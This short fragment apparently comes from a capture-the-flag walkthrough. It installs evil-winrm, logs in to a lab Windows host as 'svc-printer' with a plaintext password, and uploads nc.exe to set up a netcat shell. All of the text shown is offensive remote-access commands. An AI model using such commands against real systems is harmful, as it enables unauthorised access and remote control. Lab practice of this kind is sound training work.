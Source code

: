#install  
gem install evil-winrm  
#login  
evil-winrm -i 10.10.10.233 -u svc-printer -p '1edFg43012!!'  
#upload  
upload /usr/share/windows-resources/binaries/nc.exe